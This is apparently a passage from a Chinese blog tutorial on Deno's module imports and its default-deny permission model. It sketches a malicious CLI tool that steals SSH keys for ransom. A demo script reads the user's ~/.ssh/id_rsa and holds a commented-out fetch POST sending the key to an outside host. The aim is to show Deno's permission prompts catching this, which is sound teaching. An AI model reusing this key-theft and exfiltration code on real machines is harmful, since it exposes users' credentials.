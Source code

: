   - 可以通过 import url 直接引用线上资源；
  - 资源不可省略扩展名和文件名。
  
  关于第 1 点，其实是deno争议比较大的一点。
  
  有人很看好，觉得极大的扩展了 deno 库的范围；有人则不太看好，觉得国内网速的原因，并不实用。🤔

### 安全性

在介绍之前我们先思考一下这个场景会不会出现：

> 我做了一个基于命令行的一键上网工具 `breakwall`，每月 1 个 G 免费流量，然后将压缩后的 JS 代码发布到 npm 上，然后后在各种渠道宣传一波。
>
> 羊毛党兴高彩烈的 `cnpm install -g breakwall`，然后每次使用的时候，我偷偷的将诸位的 ssh 密钥和各种能偷的文档及图片偷偷上传到我的服务器，在设定期限到期后，删除电脑上资料，留下一句拿钱换资料，仅支持比特币。

#### 默认安全

在 Node 中，可以调用 fs.chmod 来修改文件或目录的读写权限。说明 Node 运行时的权限是很高的。如果你在 Node 中导入一份不受信任的软件包，那么很可能它将删除你计算机上的所有文件，所以说 Node 缺少安全模块化运行时。除非手动提供一个沙箱环境，诸如 Docker 这类的容器环境来解决安全性问题。所以上面的功能在Node中是可以实现的。

那么Deno呢？

我们先用 deno 执行以下代码：

```js
import dir from "https://deno.land/x/dir/mod.ts";

console.log(dir("home")) // C:\Users\MYY

const rsa = await Deno.readTextFile(dir("home") + "/.ssh/id_rsa"); // C:/Users/MYY/.ssh/id_rsa

// fetch("http://jsonplaceholder.typicode.com/posts/1", {
//     method: "POST",
//     body: JSON.stringify(rsa),
// })
//     .then((res) => res.json())
//     .then((res) => console.log("密钥发送成功，嘿嘿嘿😜"));

await Deno.writeTextFile("./key/id_rsa", rsa);
console.log('密钥写入成功，嘿嘿嘿😜');

console.log("start breakwall...");
// breakwall code
// ...
```

PS: 这里使用向key文件夹的id_rsa写入用户的id_rsa来代替将用户的id_rsa发送到服务器中

在Deno中，当我们执行 `deno run './demo2.js'` 时，这里可以看到终端会显示如下：

```bash
PS D:\FrontEndProject\deno-demo> deno run './demo2.js'
⚠️  ️Deno requests env access to "USERPROFILE". Run again with --allow-env to bypass this prompt.
   Allow? [y/n (y = yes allow, n = no deny)]  y
   Allow? [y/n (y = yes allow, n = no deny)]  y
⚠️  ️Deno requests read access to "C:\Users\MYY/.ssh/id_rsa". Run again with --allow-read to bypass this prompt.
   Allow? [y/n (y = yes allow, n = no deny)]  y
⚠️  ️Deno requests write access to "./key/id_rsa". Run again with --allow-write to bypass this prompt.
   Allow? [y/n (y = yes allow, n = no deny)]  y
密钥写入成功，嘿嘿嘿😜
start breakwall...
```
